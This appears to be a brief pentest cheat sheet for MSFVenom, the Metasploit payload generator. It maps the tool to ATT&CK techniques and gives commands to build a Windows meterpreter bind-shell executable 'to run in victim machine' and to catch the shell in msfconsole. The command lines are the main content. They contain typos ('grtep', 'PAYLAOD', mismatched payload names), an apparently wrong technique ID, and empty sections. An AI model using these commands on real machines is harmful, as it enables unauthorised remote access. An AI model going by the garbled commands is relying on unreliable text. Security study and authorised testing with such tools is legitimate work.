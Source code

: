 # MSFVenom

## Usage
   - Payload generator and shellcode encoder

## ATT&CK
   - Execution
     - Exploitation for Client Execution (T1023) 
   - Privilege Escalation
     - Exploitation for Privilege Escalation (T1068)
  
## Link
   - https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom

## Commands
   - Client Execution
     - ```msfvenom --list payload | grtep windows```
       - list of windows payloads 
     - ```msfvenom -p windows/meterpreter_bind_tcp -a x86 -f exe -o bind.exe --platform windows```
       - Create a malicious exe to run in victim machine
     - ```msfconsole``` & ```set PAYLAOD windows/meterpreter_bin_tcp``` & ```set LPORT 4444``` & ```set LHOST 192.168.1.1```
       - Receive the shell in attacker machine 
   - Options
     - 
   - Privilege Escalation
     - 
